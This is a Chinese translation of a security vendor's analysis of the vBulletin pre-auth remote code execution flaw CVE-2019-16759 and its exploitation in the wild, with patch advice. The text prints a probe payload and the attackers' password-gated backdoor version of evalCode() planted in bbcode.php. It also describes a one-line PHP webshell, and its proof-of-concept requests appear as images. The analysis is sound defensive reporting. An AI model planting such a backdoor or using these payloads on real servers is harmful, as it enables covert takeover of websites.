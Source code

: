 > 原文链接: https://www.anquanke.com//post/id/189470 


# CVE-2019-16759漏洞在野利用


                                阅读量   
                                **718636**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者paloaltonetworks，文章来源：unit42.paloaltonetworks.com
                                <br>原文地址：[https://unit42.paloaltonetworks.com/exploits-in-the-wild-for-vbulletin-pre-auth-rce-vulnerability-cve-2019-16759/](https://unit42.paloaltonetworks.com/exploits-in-the-wild-for-vbulletin-pre-auth-rce-vulnerability-cve-2019-16759/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p5.ssl.qhimg.com/t01c66e1b07f68c16f8.png)](https://p5.ssl.qhimg.com/t01c66e1b07f68c16f8.png)



研究人员发现vBulletin Pre-Auth漏洞的在野利用。

近期有研究人员公布了CVE-2019-16759 vBulletin 0 day漏洞的相关详情，Unit 42很快就发现了该漏洞的在野利用。通过利用该漏洞，未经过认证的攻击者可以获取运行在v 5.0.0- 5.5.4版本的vBulletin服务器的特权访问和控制。



## 漏洞根源分析

该漏洞是一个pre-auth（预认证）远程代码执行漏洞，CVSS V3.1评分为9.8。漏洞是vBulletin v 5.0.0版本中引入的一个Ajax渲染函数引发的PHP服务器端模板注入。<br>
首先看一下`index.php`的代码。

[![](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-1.-Entry-Point-of-the-vulnerability-index.php_-1.png)](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-1.-Entry-Point-of-the-vulnerability-index.php_-1.png)

图 1. 漏洞的入口点(index.php)

代码会调用`vB5_Frontend_ApplicationLight::isQuickRoute()`来检查请求是不是`quick route`（快速路由）。使用的方法是位于`includes/vb5/frontend/applicationlight.php`的`isQuickRoute()`：

[![](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-2.-isQuickRoute-function-900x614.png)](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-2.-isQuickRoute-function-900x614.png)

图 2. isQuickRoute函数 (`includes/vb5/frontend/applicationlight.php`)

如图 2所示，如果在请求的开始部分有 `ajax/api`或`ajax/render` ，函数会返回`true`。然后，`vB5_Frontend_ApplicationLight`对象会被初始化，并根据图1执行。

[![](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-3.-Ajax-render-handler-includesvb5frontendapplicationlight.php_-900x586.png)](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-3.-Ajax-render-handler-includesvb5frontendapplicationlight.php_-900x586.png)

图 3. Ajax render handler (`includes/vb5/frontend/applicationlight.php`)

图 3所示，当请求以`ajax/render`开始时，`handler`会被设置为`callRender`。

[![](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-4.-callRender-renders-the-template-includesvb5frontendapplicationlight.php_-900x325.png)](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-4.-callRender-renders-the-template-includesvb5frontendapplicationlight.php_-900x325.png)

图 4. callRender() 渲染模板 (`includes/vb5/frontend/applicationlight.php`)

图 4表明`callRender()`函数会使用来自`array_merge($_POST, $GET)`的`$routeInfo[2]`和`$params`中的名字来渲染模板。

[![](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Fig-5-1-900x268.png)](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Fig-5-1-900x268.png)

图 5. `widget_php`模板 (c`ore/install/vbulletin-style.xml`)

图 5表明`vbulletin-style.xml`文件中有一个`widget_php`模板。根据该模板，如果`$widgetConfig[‘code’]`不为空， `$vboptions[‘disable_php_rendering’]`也被禁用了，就会执行如下代码：

```
`{`vb:action evaledPHP, bbcode, evalCode, `{`vb:raw 
widgetConfig.code`}``}`
               `{`vb:raw $evaledPHP`}`
```

[![](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-6.-evalCode-function.png)](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-6.-evalCode-function.png)

图 6. evalCode()函数 (includes/vb5/frontend/controller/bbcode.php)

图 6所示是`evalCode()`函数的代码，`$code`中的文本会直接由于PHP`eval()`函数执行。

如果用`params`参数构建请求：

[![](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/word-image-3.png)](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/word-image-3.png)



## POC

根据分析，研究人员构建了漏洞利用代码来执行该功能。因为参数`routestring` 是来自`$_REQUEST`的，所以可以通过`$_GET`, `$_POST`,`$_COOKIE HTTP`等方法发送。`widgetConfig[code]`可以通过`$_GET, $_POST`方法发送。因此，可以构建如下的PoC，并通过GET或POST请求发送：

[![](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/PoC-Code.png)](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/PoC-Code.png)

[![](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-7.-Vulnerability-demonstrated-through-a-GET-request-900x733.jpeg)](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-7.-Vulnerability-demonstrated-through-a-GET-request-900x733.jpeg)

图 7. 通过GET请求证明漏洞

图 7 表明PoC通过GET请求发送时间运行了`phpinfo()`。

[![](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-8.-PoC-through-POST-request-900x456.png)](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-8.-PoC-through-POST-request-900x456.png)

图 8. 通过POST请求实现PoC

图 8表明PoC通过POST请求发送时显示的`phpinfo()`。



## 在野漏洞利用

研究人员已经检测到多个该漏洞的在野利用尝试。

如图9所示，攻击者尝试执行`die([@md5](https://github.com/md5)(HellovBulletin))`来确定服务器是否有漏洞，但是由于请求中多个一个`=`（等号），所以漏洞利用就失败了。

[![](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-9.-POST-request-for-the-failed-exploit-attempt-900x399.png)](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-9.-POST-request-for-the-failed-exploit-attempt-900x399.png)

图 9. 失败漏洞利用的POST请求示例

图 10表明攻击者尝试在web root目录中创建`webconfig.txt.php`。

[![](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-10.-POST-request-for-exploit-modifying-webconfig.txt.php_-900x259.png)](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-10.-POST-request-for-exploit-modifying-webconfig.txt.php_-900x259.png)

图 10. 尝试通过POST请求修改`webconfig.txt.php`的漏洞利用

图 11表明`webconfig.txt.php`的内容和一个一行的PHP webshell，允许攻击者来发送任意命令或由主机执行。

[![](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-11.-Content-after-base64-decode.png)](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-11.-Content-after-base64-decode.png)

图 11. base64解码后的内容

图 12攻击者尝试覆写`bbcode.php`文件的例子。

[![](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-12.-Attacker-tries-to-overwrite-the-bbcode.php_.png)](https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/Figure-12.-Attacker-tries-to-overwrite-the-bbcode.php_.png)

图 12. 攻击者尝试覆写`bbcode.php`文件

如果成功的话，`evalCode()`就会返回以下代码：

```
function evalCode($code)
`{`
ob_start();if (isset($_REQUEST["epass"]) &amp;&amp; $_REQUEST["epass"] == "2dmfrb28nu3c6s9j") `{` eval($code);`}`
$output = ob_get_contents();
ob_end_clean();
return $output;
`}`
```

通过以上内容，在`“epass”`通过请求中的值 `“2dmfrb28nu3c6s9j”`发送时，被黑的站点会执行`evalCode()`函数的代码。这样可以防止攻击者控制被黑的站点，允许僵尸网络C2服务器将该漏洞利用排除在外，并向目标服务器发送命令。



## 结论

截至目前，研究人员已经发现了该 vBulletin 漏洞的漏洞利用。

研究人员建议管理员尽快更新 vBulletin到version 5.5.2/3/4 Patch Level 1 ，或在管理面板中禁用`PHP, Static HTML, Ad Module rendering`设置。
